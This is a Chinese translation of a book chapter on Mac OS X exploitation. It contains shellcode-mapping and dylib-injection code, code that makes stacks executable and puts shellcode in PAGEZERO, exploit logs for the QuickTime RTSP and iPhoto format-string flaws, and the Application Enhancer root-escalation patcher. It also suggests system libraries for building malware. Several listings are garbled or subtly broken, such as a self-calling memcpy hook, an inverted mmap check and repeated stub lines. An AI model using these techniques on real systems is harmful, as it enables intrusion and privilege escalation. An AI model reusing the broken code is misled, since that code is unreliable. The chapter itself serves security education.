正如 Nemo 在文章中解释的那样，Mac OS X 有一个名为 `shared_region_map_file_np` 的未文档系统调用，动态加载器（通常称为 dyld，我们稍后会讨论）使用它将动态库映射到内存中并供系统中的所有进程使用，这在性能上有有明显的优势。

遗憾的是，如果不对其进行适当限制，它为任何进程在内存中引入任意数据提供了一种极佳的方法，带来了显而易见的安全风险。

下面是定义共享区域映射 C 数据结构的代码：

```c
struct _shared_region_mapping_np {
    mach_vm_address_t address;
    mach_vm_size_t size;
    mach_vm_offset_t file_offset;
    vm_prot_t max_prot;
    vm_prot_t init_prot;
};
```

出于兼容性考虑和安全的跨架构支持，您应该使用 `mach_types`（特定于 Mach 内部头文件，尽管它们只是被定义为常用的 C 数据类型）。在编写旨在使用低级接口的利用代码时，这也是一种良好的做法，并将帮您节省大量排查烦人错误的时间。

结构体的前两个成员非常容易理解：它们定义了映射的位置和大小（向上对齐到页面大小，在 X86 上这应该是 4096 字节）。

```c
/* 取自 osfmk/mach/i386/vm_param.h */
#define I386_PBYTES 4096
#define I386_PGSHIFT 12
#define PAGE_SIZE I386_PBYTES
#define PAGE_SHIFT I386_PGSHIFT
```

最后两个成员定义了映射的初始和最大可能的内存保护/权限。（顺便提一下对于 X86，读也意味着执行权限，尽管如果实施了强制执行这可能会受到限制，Linux 上的 PaX MPROTECT 功能具有这一点）。在我们继续解释之前，请记住您不能创建冲突的映射；如果指定的地址在使用中，它将无法工作。

让我们逐步分析漏洞中创建共享区域映射的 `map_shell_code(void)` 函数：

```c
unsigned long map_shellcode(void) {
    int fd = -1;
    unsigned long shellcodeaddr = 0x00;
    struct shared_region_mapping_np shmreg = {
        char *tmpbuf[PAGE_SIZE];
        char *filename;
        void *scptr = NULL;
    };
    memset(tmpbuf, 0x90, sizeof(tmpbuf));
    scptr = (tmpbuf - PAGE_SIZE - sizeof(dual_shell));
    shmreg.address = BASE_ADDR;
    shmreg.size = PAGE_SIZE;
    shmreg.file_offset = 0;
    shmreg.max_prot = VM_PROT_EXECUTE VM_PROT_READ VM_PROT_WRITE;
    shmreg.init_prot = VM_PROT_EXECUTE VM_PROT_READ VM_PROT_WRITE;
}
```

缓冲区将包含一个初始的 NOP 滑块（我们稍后将其更改为包含 shellcode 以及在内存映射上所需的任何其他数据），并且 `scptr` 更新指向我们放置 shellcode 的位置（在 `tmpbuf` 内部）。然后，初始化内存映射结构（稍后解释）：

基地址设置为 `0x9ffff000`，Neil 在他的 Phrack 文章中使用它是出于几个原因（例如，在我们创建带有 shellcode 的共享区域映射后，添加一个包含 NULL，在这种情况下它将位于 `0x9ffff7`）。大小将是一个整页；在漏洞中，这被硬编码为 4096 字节，因为它与 X86 的版本兼容。

由于我们正在创建一个包含 `tmpbuf` 中数据的新文件，偏移量将为零。稍后我们将讨论 Leopard 特有的问题，这些问题有助于克服对共享区域映射创建的限制（例如，文件必须由 root 所有）。

最后两个是内存权限，即读-写-执行 (RWX)。

下一个代码段显示了我们如何创建文件、将 shellcode 拷贝到 `tmpbuf` 缓冲区的正确位置（末尾）、将缓冲区写入文件，并使用 `shared_region_map_file_np` 系统调用创建映射，同时检查错误以避免返回错误的地址。

```c
filename = "/tmp/ich.socket";
if ((fd = open(filename, O_RDWR|O_CREATE)) == -1) {
    perror("open");
    exit(EXIT_FAILURE);
}
memcpy(scptr, dual_shell, sizeof(dual_shell));
if (write(fd, tmpbuf, PAGE_SIZE) != PAGE_SIZE) {
    perror("write");
    close(fd);
    exit(EXIT_FAILURE);
}
if (syscall(SYS_shared_region_map_file_np, fd, 1, &shmreg) == -1) {
    perror("shared_region_map_file_np");
}
```

# dylib (动态库) 注入及其他巧妙技巧

从 Linux 到 Solaris，再到 Microsoft Windows，每个系统都曾暴露过库注入。Mac OS X 也不例外，它有自己的一套技术，包括输入管理器（Input Managers，在 Leopard 版本中受到限制）。

在 Mac OS X 上注入库最简单的方法（与基于输入管理器的方法不同，它在 Leopard 中不受限制）是在执行时对目标用户或应用程序的环境进行“污染”。

`DYLD_INSERT_LIBRARIES` 环境变量决定了在程序指定任何库之前加载的库，这实际上允许挂钩（hook）函数并覆盖其功能。通常，它必须配合 `DYLD_FORCE_FLAT_NAMESPACE` 一起使用，`DYLD_LIBRARY_PATH` 可用于覆盖动态链接器搜索库的默认位置。

（参见 http://developer.apple.com/documentation/Darwin/Reference/Manpages/1/dyld.1.html）

在用户层面，可以使用 XML 格式的 `~/.MacOS/environment.plist` 文件来“污染”环境。Property List Editor 应用程序（位于 /Developer/Applications/PropertyListEditor.app）允许轻松编辑 plist 文件。在 OS X 的早期版本（10.0.4 及更早版本）中，该文件位于 OpenStep/environment。

（参见 http://developer.apple.com/qa/qa2001/qa1067.html）

我使用 Kevin 的 iAdware（原名为 "iSniper"）开发了一个概念证明（PoC），它引入了一些我们在大多数常见恶意软件中不具备的功能。其中某些功能的目的是通过使栈变为可执行来削弱加载我们库的应用程序：

```c
void make_stack_executable() {
  size_t stacksize = DEFAULT_STACK_SIZE;
  void *stackstart = (void *)DEFAULT_STACK_START;
  int ret = 0;
  ret = mprotect(stackstart, stacksize, PRO_READ|PRO_WRITE|PRO_EXEC);
  if (ret == -1) {
    perror("mprotect");
    return;
  }
}
```

```c
fprintf(stderr, "Stack executable from %p to %p (%u bytes)\n",
stackstart, (void *)(stackstart+stacksize),
(unsigned)stacksize);
```

未篡改进程与被削弱进程之间的区别如下（请注意 RWX 效果，而不是读写 RW）：

使用我们的库时：

| Stack | 详情 |
| :--- | :--- |
| Stack | bf800000-bffff00 [8188K] rwx/rw SM=ZER |
| Stack | bffff00-c0000000 [4K] rwx/rw SM=COW thread 0 |
| Stack | [8192K] |
| 清洁进程: | bf800000-bffff00 [8188K] rw--rw SM=ZER |
| Stack | bffff00-c0000000 [4K] rw--rw SM=COW thread 0 |
| Stack | [8192K] |

该思想是以修改进程的方式，允许以更高的潜在成功率利用其他漏洞，并为上述流程留下更多可供使用的“后门”。例如，在固定位置映射 shellcode，我们就可以依赖跳转而无需担心规避技术或绕过任何安全特性。

__PAGEZERO 00000000-00000001 [4K] ------SM=NULL

该代码在 PAGEZERO 段的地址映射了 NOP sled 和 shellcode（在我们的示例中，来自 Metasploit Framework 的 X86 TCP “bind shell”）。默认情况下，它在 0x1000 处的二进制镜像开始之前持有 PAGE_SIZE（即 4096 字节）的 NULL 数据。我们在验证 `mmap()` 调用的结果时，特意检查了 NOP 指针。

```c
void inject_pagezero_poison(void)
{
  void *buf = (void *)0xcccccccc;
  buf = mmap(NULL, 4096, PRO_READ|PRO_WRITE,
             MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
  if (buf == NULL)
  {
      fprintf(stderr, "Copying NOP sled + MSF shellcode at\n PAGEZERO segment...\n");
      memset(buf,0, 4096);
      memcpy(buf+1024, intel_code, sizeof(intel_code));
      fprintf(stderr, "Copied %u bytes at %.08x\n",
             (unsigned)sizeof(intel_code),
             (unsigned int)(buf+1024));
  }
}
```

```c
  if (mprotect(void *)0x00000000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC) == -1)
    perror("mprotect");
}
```

当此函数在加载库的上下执行时，PAGEZERO 内容不再包含 NULL 字节（需要注意的是这是一种技术，当应用程序尝试派生 NULL 指针或类似指针时可能会产生意外结果）：

```gdb
...(gdb) x/20 0x00000000
```

顺带一提，有一些你可能在库中使用来访问进程参数、环境等：

```c
/* 来自 libSystem */
extern char ***NSargv(void);
extern int *NSArg(void);
extern char ***NSEnv(void);
extern char **NSGetName(void);
extern struct mach_header *_GetHeader(void);
```

挂钩函数（包括 Carbon 提供的函数）可以很容易实现。你只需要保留原始函数的指针，并确保不要挂钩自身（例如使用 `printf()`）：

```c
typedef void *(memcpy_t)(void *dest, const void *src, size_t n);
static memcpy_t def_memcpy = NULL;
void *memcpy(void *s1, const void *s2, size_t n)
{
  if (def_memcpy == NULL)
    def_memcpy = (memcpy_t)dlsym(RTLD_NEXT, "memcpy");
  return memcpy(s1, s2, n);
}
```

对于像 `CFStringCString` 这样的 Carbon API：

```c
CFStringRef CFStringCString(CFAllocatorRef alloc, const char *CStr, CFStringEncoding encoding)
{
    if (def_CFStringCString == NULL)
        def_CFStringCString = 
            (CFStringCString_t)dlsym(RTLD_NEXT, "CFStringCString");

    printf("%s\n", CStr);

    return (CFStringRef)def_CFStringCString(alloc, CStr, encoding);
}
```

Mac OS X 系统预装了许多库，例如 SQLite。这对于在你的恶意软件中实现加密和其他功能（如基于数据库的存储）非常有用。

```c
ret = sqlite3_open(DEFAULT_DATABASE_PATH, &(cur_state.db));
if (ret) {
    fprintf(stderr, "Can't open database: %s\n",
        sqlite3_errmsg(cur_state.db));
    sqlite3_close(cur_state.db);
    cur_state.use_db = 0;
} else {
    create_db_tables(cur_state.db);
}
```

回到 1998 年，Rafal Wojtczuk（即 Nergal）发表了一篇关于破解不可执行栈保护的文章（具体来说，是 Solar Designer 为其 Linux 内核补丁开发的），这种方法被称为“返回 libc”（ret2libc）。其思想基本上是使用动态库中的函数，而不是在栈上执行代码来破坏执行流，并为其提供必要的参数。例如，使用 `system()` 执行命令，或调用 `mprotect()` 使栈变为可执行。

（参见 http://en.wikipedia.org/wiki/Return-to-libc_attack）
（参见 www.phrack.org/archives/58/p58-0x04.）

以共享区域映射的方式，我们将使用一个已知漏洞在实践中说明该概念。该漏洞是 2007 年底在苹果未通知的情况下出现的 Quicktime RTSP 栈溢出。最初公布的概念证明触发了问题但没有可用的 payload：

```
Thread crashed with X86 State (32-bit):
eax: 0x41414141  ebx: 0x16636ef  ecx: 0x00000000  edx: 0x0000041
di: 0xffdf308  esi: 0x06758b3  ebp: 0xffdf438  esp: 0xffdf180
ebp: 0x00000001  edi: 0x0010207  eip: 0x06641c5  ebx: 0x00000017
ds: 0x0000000f  es: 0x0000001f  fs: 0x00000000  gs: 0x00000037
cr2: 0x41444141
```

演示中使用的漏洞是用 Ruby 开发的“quicktime redux”，能够识别 Quicktime 版本、Mac OS 版本和运行架构。它对 X86 目标依赖返回 libc 技术，对 PowerPC 则依赖直接返回栈（再次，我们必须注意 PPC 上的 Mac OS 具有不可执行栈）。下面的输出显示了开发的初始阶段之一，发送了一个带有 315 字节填充的调试 payload：

```
qimersp_redux.rb: Listening on 0.0.0.0:554
```


# 第7 章 • 安全与操作系统

## qimersp_redux.rb 连接日志

```text
qimersp_redux.rb: Connection from localhost (127.0.0.1:59238)
qimersp_redux.rb: Request from Quicktime: 7.3 on Mac 10.5.1-IA32
qimersp_redux.rb: Building payload for ‘7.3-Mac 10.5.1-IA32’
qimersp_redux.rb: Return address: Oxdeadbeef, shellcode: 10 bytes.
qimersp_redux.rb: Payload: 315 bytes (padding=ooooooo=0x6f)
qimersp_redux.rb: Sent 748 bytes...
```

## Quicktime 接收响应并触发了问题

```
Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_INVALID_ADDRESS at address: Oxdeadbeef
xdeadbeef in ??
(gdb) back
#0 Oxdeadbeef in ?? ()
#1 0x645a4145 in ?? ()
Cannot access memory at Oxdeadbeef
```

## 客户端平台指纹识别与版本控制代码

用于客户端平台指纹识别和版本控制的代码只是简单的扫描，它将值存储在数组中，并根据版本、架构和 Mac OS X 版本使用有意义的键对哈希值：

```ruby
qtver = request.scan(/User-Agent: QuickTime\/(.+)\n\\qtver=(.+);?cu=(.+);?os=(.+)\r\n/).flatten

target = Hash.new

target[:version] = qtver[0]
target[:arch] = qtver[1]
target[:os] = qtver[3]
```

负载（payload）的选择是根据此类信息自动进行的，允许不同场景的多个客户端连接并接收到它们的“dead beef”负载。顺便提一下，这通常是你在漏洞利用代码中应尽可能实现的功能。在漏洞利用中要求参数并不优雅，几乎总有一种方法可以通过某种程度的隐蔽性来自动化负载选择，就像在本例中一样，通过指纹识别。

## 使用调试负载时的寄存器状态

```
eax 0xffffeae6 -5402
ec 0x5 5
edx 0x0 0
ebx 0x11223344 287454020
esp 0xbffffd20 0xbffffd20
ebp 0xdefacedd 0xdefacedd
esi 0xbabebeef -1161940441
edi 0x313337666 825456230
eip 0xdeadbeef 0xdeadbeef
```

## 验证栈执行保护

让我们确认（在 Leopard 中，唯一的区别是内核消息格式）我们无法通过将 `EIP` 指向可能位于负载的栈地址来在栈上执行代码：

```
Program received EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_PROTECTION_FAILURE at address: 0xbffffd12
0xbffffd12 in ??
(gdb) shell sudo dmesg | grep execution
Data/Stack execution not permitted: QuickTime Player [pid 19621] at virtual address 0xbffffd00, protections were read-write
```

它报告说我们地址所在的内存区域保护仅为读写，且进程接收到了 `KERN_PROTECTION_FAILURE`。如果在进行返回-to-libc 救助时不更改内存权限，它将无法正常工作。你可以在下方看到我们尝试继续执行的栈基地址上的指令：

```
(gdb) x/4i 0xbffff12
0xbffff12: int3
0xbffff13: int3
0xbffff14: int3
0xbffff15: int3
```

## 进程地址空间布局

可以使用 `vmap` 工具来获取进程地址空间的布局、其库、动态分配的内存、栈等。它提供了极其有用的信息，以及每个内存区域的结束地址、权限和类型。你可以在下方看到 `libSystem` 以及其他对象的位置：

```
_TEXT 91b32000-91c8d000 [138K] r-x/r-x SM=COW /usr/lib/libSystem.B.dylib
_TEXT 91939000-91a19000 [89K] r-x/r-x SM=COW /usr/lib/libobjc.A.dylib
_TEXT 8e000000-8efe2e00 [184K] r-x/r-wx SM=COW /usr/lib/lyld
_TEXT 00001000-000e6000 [61K] r-x/r-wx SM=COW /Applications/QuickTime Player.app/Contents/MacOS/QuickTime Player
_TEXT 95f40000-97b37b000 [812K] r-x/r-x SM=COW /usr/Library/Frameworks/AppKit.framework/Versions/C/AppKit
```

## dyld 存根

让我们引入“dyld 存根”的概念：它们是简单的占位符，包含指向特定库提供的函数所在地址的跳转指令。在其他地方，它被用于将符号绑定或“链接”到相应的库，该任务由 Mach OS X 动态链接器（`dyld`）在运行时执行。Mach-O 可执行文件在其加载命令中指定运行所需的库，`dyld` 在库路径中查找它们（通过 `DYLD_LIBRARY_PATH` 环境变量进行修改）。懒性绑定在需要符号时（例如在函数调用时）发生。

你可以看到一些函数的 dyld 存根示例，其中存根的名称始终以 `dyld_stub_` 为前缀：

```
0xa0a36c07 <dyld_stub_system> jump 0x1bbbf3a4 <system>
0xa0a36c0c <dyld_stub_time> jump 0x1b9f5fc <time>
0xa0a36c11 <dyld_stub_timegm> jump 0x1b97f84 <timegm>
0xa0a36c16 <dyld_stub_tzset> jump 0x1b723ea <tzset>
0xa0a36c07 <dyld_stub_system> jump 0x1bbbf3a4 <system>
0xa0a36c0c <dyld_stub_time> jump 0x1b9f5fc <time>
0xa0a36c11 <dyld_stub_timegm> jump 0x1b97f84 <timegm>
0xa0a36c16 <dyld_stub_tzset> jump 0x1b723ea <tzset>
0xa0a36c07 <dyld_stub_system> jump 0x1bbbf3a4 <system>
0xa0a36c0c <dyld_stub_time> jump 0x1b9f5fc <time>
0xa0a36c11 <dyld_stub_timegm> jump 0x1b97f84 <timegm>
0xa0a36c16 <dyld_stub_tzset> jump 0x1b723ea <tzset>
0xa0a36c07 <dyld_stub_system> jump 0x1bbbf3a4 <system>
0xa0a36c0c <dyld_stub_time> jump 0x1b9f5fc <time>
0xa0a36c11 <dyld_stub_timegm> jump 0x1b97f84 <timegm>
0xa0a36c16 <dyld_stub_tzset> jump 0x1b723ea <tzset>
0xa0a36c07 <dyld_stub_system> jump 0x1bbbf3a4 <system>
0xa0a36c0c <dyld_stub_time> jump 0x1b9f5fc <time>
0xa0a36c11 <dyld_stub_timegm> jump 0x1b97f84 <timegm>
0xa0a36c16 <dyld_stub_tzset> jump 0x1b723ea <tzset>
```

*(注：由于原文文本中 dyld stubs 部分似乎存在重复，此处已按原文逻辑呈现，若原文存在排版错误请以实际为准)*

## Leopard 与地址布局随机化（ASLR）

地址布局随机化（ASLR）的概念最早由 PaX 项目引入 Linux，可能是多年入侵防御领域最具技术性且复杂的进展。

(参见 <http://pax.grsecurity.net/docs/aslr.txt>.)

其基础在于没有 ASLR 的系统会在固定位置生成动态库，包括其栈和堆地址（这可能取决于系统的实现和 malloc 的设计）。

具有 ASLR 的系统将这些地址尽可能地不可预测，通常是在执行时间（尽管微软决定在重启时随机化库地址，Apple 在 Leopard 中的实现与之类似）。因此，这将导致常见的利用技术在可靠性和速度方面失效，对于大多数场景（例如，重新启动的网络守护将受到暴力破解攻击）。

正如往常，伟大的想法是有代价的。ASLR 会带来性能损耗，是否明显取决于运行架构以及实现的优化程度和复杂性。大部分开销可能会发生在执行时间和内存分配上（如果后者是随机化的话）。另一个问题是 ABI 编译：依赖固定内存位置的后兼容软件在引入 ASLR 后可能会崩溃（例如，内核态代码使用了固定内存地址）。

下方输出显示了在 X86 上最新的（本文当时的）Mac OS X 10.4 安装程序上运行 `pastext` 工具的结果：

```
可执行的共享库数据 (mprotect) : 漏洞
可执行的栈 (mprotect) : 漏洞
匿名随机映射测试 : 无随机化
堆随机化测试 (ET EXEC) : 无随机化
主可执行文件随机化 (ET EXEC) : 无随机化
共享库随机化测试 : 无随机化
栈随机化测试 (SEGMEMEC) : 无随机化
栈随机化测试 (PAGEEXEC) : 无随机化
返回函数 (strcpy) : paxtest: 返回地址包含一个 NULL 字节。
返回函数 (strcpy, RANDEX) : paxtest: 返回地址包含一个 NULL 字节。
返回函数 (memcpy) : 已杀死 (Killed)
返回函数 (memcpy, RANDEX) : 已杀死 (Killed)
可执行共享库 bss : 漏洞
可执行的共享库数据 : 已杀死 (Killed)
可写文本段 : 漏洞
```

堆和栈缺乏随机化这一点再次显而易见，而且 `paxtest` 共享库随机化测试的性质并不能确定其存在（它期望在执行时进行随机化，而 Leopard 是以重启为基础执行此操作）。整个内存保护测试表明，Leopard 在强制内存权限方面并没有做得更好。

Leopard 中实现的 ASLR 在某种程度上可能更好地防御自动化攻击，但仍然存在严重问题，使得所谓的针对攻击和复杂威胁极有可能成功。此外，重新生成守护进程、内存泄漏和其他问题将很容易被滥用，因为随机化水平显然未达到优化的。

在运行最新修订版 Linux 2.6 内核的 x86_64 系统上，PaX 的结果显示了如果他们决定修复并实施一致的 ASLR，我们未来对 Mac OS X 应该期待什么：

- 匿名映射随机化测试 : 33 位（猜测）
- 堆随机化测试 (ET EXEC) : 13 位（猜测）
- 堆随机化测试 (ET DYN) : 13 位（猜测）
- 主可执行文件随机化 (ET EXEC) : 33 位（猜测）
- 主可执行文件随机化 (ET DYN) : 33 位（猜测）
- 共享库随机化测试 : 33 位（猜测）
- 栈随机化测试 (SEGMEMEC) : 40 位（猜测）
- 栈随机化测试 (PAGEEXEC) : 40 位（猜测）

# 苹果漏洞之月

如果说有一个所谓的“漏洞之月”引发了超出原始明显水平之外的争议（HD Moore 等人提出的“浏览器漏洞之月”），那就是“苹果漏洞之月（Month of Apple Bugs，简称 MoAB）”。这是 Kevin Finisterre 和 Lance M. Havok（此前被称为“LMH”）发起的项目，他们联手在 2007 年 1 月期间每天发布一个 Mac OS X 和 Apple 安全漏洞。

（见 <http://projects.full-pull.com/moab/>）
（见 <http://news.bbc.co.uk/2/hi/technology/6227875.sm>）
（见 <http://apple.slashdot.org/article.php?id=07/01/02/1336261.>）

该项目共产生了 30 处安全漏洞，其中许多对 Mac OS X 系统构成了远程和本地的关键威胁。从基于栈的缓冲区溢出，到脚本使用不当导致可利用的权限提升条件，再到内核堆溢出、文件格式解析缺陷和其他问题。即使是最流行的 Mac OS X 应用也暴露在风险之中，引发了用户群的强烈反应。

## 对厂商的压力及影响

通过该项目观察 Apple 的反应，其一贯的哲学是避免任何公开的回应或声明，无论是公开反驳还是承认漏洞。考虑到这种情况以及他们之前在发布安全问题方面几乎极少的记录，这是可以预见到的。包括微软在内的其他几个厂商在 20 世纪 90 年代也有类似或更糟糕的政策。

此外，MoAB 对 Mac 用户群带有一种嘲讽和幽默，尽管对他们的技术工作和贡献没有产生实际影响。将他们的行为视为幽默还是无意义的玩笑，仍然是一个个人品味问题。个人认为，与 Dave Ariel 对总是搞笑有趣的 GOBBLES 所说的类似，安全行业是一个需要严肃对待的行业。毕竟，它只是 IT 行业中一个非常小的子集。

在一些技术和安全漏洞的写作中，我们可以发现充斥着嘲讽和笑话，提到了安全行业的人、厂商和其他实体（历史人物、北美民间传说、记者等）。某些内容似乎是因为第三方对该项目的回应或攻击或其他冲突而产生的。这并不是秘密，这类项目可能会引起动乱、敌意，以及对发起者产生潜在的嫉妒情绪，因为他们将聚集大量的媒体和新闻关注。

> “凡是耗尽一生而未成名的人，在世界上留下的痕迹，正如空气中的烟或水面上的泡沫。” —— 丁丁·阿尔利格里，《神曲》第 24 歌，第 47–51 行。

1 月 31 日发布的最后一条说明包含一个超文本标记语言（HTML）注释，嘲讽了缺乏最后的嘲讽：

```html
<!-- No taunts for this time -->
```

其他的嘲讽包括以隐藏图像和其他对象形式存在的“额外漏洞”，这些对象会导致拒绝服务（DoS）（例如对 JP2 图像文件的内部结构进行无限循环），导致 Safari 崩溃。

```html

```

```html
<!-- 在床上浏览 MoAB 时切勿使用笔记本电脑 -->
```


# 第 7 章 · 安全 OS X

（无论正反）回文字游戏的使用似乎很常见（例如，在 `MOAB-29-01-2007` 中）。互联网备录也有他们的位置，一些涉及到《工业社会及其未来》（约翰·“泰德”·卡辛基的一篇反技术文章）。

“所有的警面板都属于我们。”（针对 `MOAB-30-01-2007`）

第三方小组开始开发针对 MoAB 流的修复方案，这些方案依赖于 `Application Enhancer (APE)`，这是 Mac OS X 的专用工具，它可以挂钩运行中的程序并注入代码以修改其功能。该产品本身也充满了争议。

## 结果概述

苹果漏洞之月（通常被称为 MoAB）的直接后果之一是注意力向 Mac OS 的极端转移。

## 开端：QuickTime RTSP URL 处理器漏洞

在项目发布引发的巨大关注和压力下，第一条 MoAB 通告被认为是非常显著的。他们确实在 QuickTime 中发布了一个简单但关键的漏洞，这可能是苹果应用最广泛的软件（在不单独使用时，它包含在 iTunes 中，历史上也包含在使用其编码器的过场视频游戏中），该漏洞迅速被媒体报道。

影响 Mac OS 的主要问题之一是应用程序之间极高的集成性和互操作性，这是一把双刃剑，在处理文件和媒体时非常有帮助，但也暴露了巨大的攻击面（该漏洞可以通过多种方法被滥用）。`MOAB-01-01-2007` 可以通过 Safari（例如通过 HTTP 重定向、JavaScript 和嵌入对象）以及 QuickTime 本身（例如播放列表文件）触发。

他们的原始利用程序创建了一个 QuickTime 播放列表文件，通过返回-libc 调用 `system` 来启动 shell：

使用大型 NOP 滑块（sled）极大地提高了到达负载的成功概率，但为 `system()` 参数找到一个完全可靠的地址显然很难。12万个 NOP 指令粘贴了两份 payload 和两个令牌，可能正如他们的公告中所述，用于寻找它们在内存中的位置。

### iPhoto Photocast XML 格式字符串漏洞

字符串漏洞已经存在很长时间，并且在今天依然流行。从解析器的角度来看，XML 本身是一种复杂的语言，人们很容易信任并忘记它可能像任何其他格式或网络协议一样包含恶意负载（在排除 Unicode 和 ASCII 编码问题外）。Kevin 在 Mac OS X 的格式字符串漏洞利用方面做了大量工作，开发了 dyld stub 覆盖技术。

（参见 `www.securityfocus.com/bid/18724`。）
（参见 `http://digitalmunition.com/dyld_stub_overwrites.tar.gz`）
`MOAB-04-01-2007` 暴露了处理 iPhoto 标题时的一个简单漏洞。原始的 PoC 提供了一个触发该缺陷的 XML 内容模板：

```
IPHTTP_FEED = "<?xml version=\"1.0\" encoding=\"utf-8\"?>\r\n" +
"<rss version=\"2.0\">\r\n" +
"<xmlns=\"http://www.apple.com/ilife/wallpapers/\"\r\n" +
"<channel>\r\n" +
"<title>" + ("A" * 256) + "%s.%n%s.%n%s.%n%s</title>\r\n" +
"<item>\r\n" +
"<title>In Gruber We Trust</title>\r\n" +
"<aw:image>http://www.digitalmunition.com/digital_mutation_detonator.jpg\r\n" +
"</aw:image>\r\n" +
"</item>\r\n" +
"</channel>\r\n" +
"</rss>\r\n"
```

构造的 photocast 在 iPhoto 6.0.5 中解析标题元素时导致了异常：

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /Applications/iPhoto.app/Contents/MacOS/iPhoto
Reading symbols for shared libraries + done
Reading symbols for shared libraries + done
Reading symbols for shared libraries + done
Reading symbols for shared libraries + done
Reading symbols for shared libraries + done
Reading symbols for shared libraries . done
Reading symbols for shared libraries + done
Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN_PROTECTION_FAILURE at address: 0x925da956
0x9000docl ()
```

确实，由于 CoreFoundation 对格式字符串令牌的实现不一致，某些影响 Cocoa 的格式字符串漏洞并不容易利用。识别出几个函数作为潜在攻击向量：

- `NSBeginAlertSheet`
- `NSBeginCriticalAlertSheet`
- `NSBeginInformationalAlertSheet`
- `NSGetAlertPanel`
- `NSGetCriticalAlertPanel`
- `NSGetInformationalAlertPanel`
- `NSReleaseAlertPanel`
- `NSRunAlertPanel`
- `NSRunCriticalAlertPanel`
- `NSRunInformationalAlertPanel`
- `NSLog`

这些函数通常用于花哨的 GUI 通知（大多数是警报面板；函数名浅而易懂）。

### Apes 的利用

在 GOBBLES 最活跃的时期，安全厂商和某些软件公司担心自己的产品引起关注，无论这种关注来自安全咨询公司的代价有多大。看来 MoAB Fixes 组在攻击 MoAB 及其政治不正确的幽默时，并没有意识到历史事件，这导致了他们适得其反（尽管考虑到当时 Apple 的补丁周期很长，他们提供的非官方补丁确实帮助了用户）。

`MOAB-08-01-2007` 是大约 60 行 Ruby 代码中的纯粹硬核讽刺，它允许本地用户在安装了 Application Enhancer 的系统上获得 root 权限。该软件用于为该项目暴露的漏洞创建第三方补丁；这发布在 Slashdot 上（“Flaw Found in Apple Bug-Fix Tool()” 和其他地方），加剧了 MoAB 与 MoAB fixes 之间已经紧张的情绪。

（参见 `http://projects.info-pull.com/moab/MOAB-08-01-2007.html`）
（参见 `http://apple.slashdot.org/article.php?sid=07/01/10/1626211`）
（参见 `www.news.com/Flaw-found-in-Apple-bug-fix-tool/2100-1002_3-6148606.html`）

值得注意的是漏洞利用程序本身，以及 APE 开发者所犯错误的简单性（这在某种程度上也归于 Apple 自身在 Framework 和系统路径上的设计缺陷）：

```
$ ruby exploit-of-the-apes.rb
++ Starting: /Library/Frameworks/ApplicationEnhancer.framework
++ Back-up: /Library/Frameworks/ApplicationUnenhancer.framework
++ Patch: /Library/Frameworks/ApplicationEnhancer.framework/Versions/Current/ApplicationEnhancer
++ Patching stage: offset=27512 patch=4
++ Patching byte at 67b
++ Patching byte at 679
++ Patching byte at 67a
++ Patching stage: offset=11558 patch=6
++ Patching byte at 1c83
++ Patching byte at 1c84
++ Patching byte at 1c85
++ Patching byte at 1c86
++ Patching byte at 1c87
++ Binary pwn data. Writing patched data...
++ Done (28 bytes). Planting aped binary...
++ Finished.
```

APE 为我们提供由 `ApplicationEnhancer` 执行的“aped”守护进程。问题是它们将二进制文件安装在可写的路径上，可以被删除、修改或进行任何补丁。在 aped 执行之前，`ApplicationEnhancer` 会丢弃权限。该利用程序使用一种高效且优雅的补丁程序在原地修改二进制文件，使丢弃权限的程序在执行 aped 时保留权限。

（参见 `http://projects.info-pull.moab/bug-files/exploit-of-the-apes.rb`）

```
puts "++ Patch: #{path_to_binary}"
PATCH_INSTRUCTIONS.each do |patch|
  offset = patch[0] # start offset
  data = patch[1] # patch bytes
  bcount = 0
  puts "++ Patching stage: offset=#{offset} patch=#{data.size}"
  data.split("").each do |byte|
    target_offset = offset + bcount
    printf "++ Patching byte at %x\n", target_offset
    binary[target_offset] = byte
    bcount += 1
  end
end
```

要更改的偏移和数据定义在嵌套数组中：

```
# 定义要补丁的操作码
PATCH_INSTRUCTIONS = [
  [27512, "\x38\x60\x00"],
  [115586, "\x31\xc0\x90\x89\x24"]
]
```

为了说明二进制层面的变化，我们将查看 `ApplicationEnhancer` 的补丁版本和原始版本的汇编代码：

```
Patched:
c006382    xor %eax,%eax
c006384    nop
c006385    movl %eax,(esp,1)
c006388    call c17221
Original:
c006382    movl 0x14(%esp),eax
c006385    movl %eax,(esp,1)
c006388    call c17221
```

随后，aped 二进制文件可以替换为后门或其他类似的工具，并在 root 权限下执行。这可能是简单的漏洞，但它是该项目中发布的最优雅的利用程序之一。他们在保留原始功能的同时颠覆二进制文件的方法微妙且干净。

### Apple DMG 与文件系统内核漏洞

Lance M. Havok 彻底审计了 XNU 文件系统的接口，暴露了多个问题，特别是在 UFS 核心中。整数溢出常见于文件系统代码，在长时间未触动的情况下，阅读起来非常困难（文件系统代码可以追溯到十年前，由于后续的兼容性问题，通常从未被更改）。

“内核漏洞月”包含了大量的文件系统相关漏洞，涵盖 FreeBSD（XNU 大部分功能的基础）以及其他操作系统如 Solaris。

（参见 `http://projects.info-pull.com/mbox/`）

Apple DMG 是利用文件系统支持内核漏洞的极佳向量，因为用户可以在没有任何提升权限的情况下挂载它们。此外，Safari 的“打开文件”行为会自动挂载从网站下载的任何镜像而无需确认。在内核执行任意代码会产生最高权限；它是针对性攻击的热点。

```
(gdb)
#0 Debugger (message=0x3c9540 "panic") at /SourceCache/xnu-xnu-712.13.8/osmf/at386/model_dep.c:770
#1 0x028d2df in panic (str=0x3d100c "getbufzone: incorrect size = %d") at /SourceCache/xnu-xnu-712.13.8/osmf/kernel/debug.c:22
#2 0x01c0d7 in allocbuf (bp=0x25a5180, size=-3072) at /SourceCache/xnu-xnu-712.13.8/bsd/vfs/vfs_bio.c:2448
#3 0x01cd85 in in_getbuf (ptr=0x2eea34, blkno=45403632, size=-3072, splag=0, stptime=0, operation=1) at /SourceCache/xnu-xnu-712.13.8/bsd/vfs/vfs_bio.c:2254
#4 0x01cdc in bi_dread (ptr=0x20, blkno=0, size=-3072, cred=0x22904, async=0, queueype=1) at /SourceCache/xnu-xnu-712.13.8/bsd/vfs/vfs_bio.c:1666
